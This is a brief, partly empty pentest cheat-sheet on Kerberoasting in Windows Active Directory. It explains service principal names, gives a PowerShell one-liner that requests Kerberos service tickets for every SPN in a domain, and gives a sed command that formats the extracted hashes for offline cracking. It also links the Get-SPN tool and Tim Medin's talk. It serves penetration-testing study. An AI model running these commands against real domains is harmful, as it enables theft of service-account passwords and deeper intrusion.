 # Kerberoast

The kerberoast vulnerability assumes that the attacker has some foothold on the domain and has a low privileged domain account.

## Service Principal Names

> A service principal name \(SPN\) is a unique identifier of a service instance. SPNs are used by [Kerberos authentication](https://msdn.microsoft.com/en-us/library/ms677600%28v=vs.85%29.aspx) to associate a service instance with a service logon account. This allows a client application to request that the service authenticate an account even if the client does not have the account name.

### Listing SPN's

### Fetching Tickets

#### Full SPN Scan

```text
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> setspn.exe -T medin.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() } 
```

#### Get-SPN

[https://github.com/nullbind/Powershellery/tree/master/Stable-ish/Get-SPN](https://github.com/nullbind/Powershellery/tree/master/Stable-ish/Get-SPN)

### Exporting Tickets

## Cracking SPN Hashes

```bash
cat kirbi2johnoutput.txt | sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/'
```

## References

[Tim Medin - Kicking The Guard Dog of Hades](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin%281%29.pdf) \([Video](https://www.youtube.com/watch?v=PUyhlN-E5MU&feature=youtu.be)\)





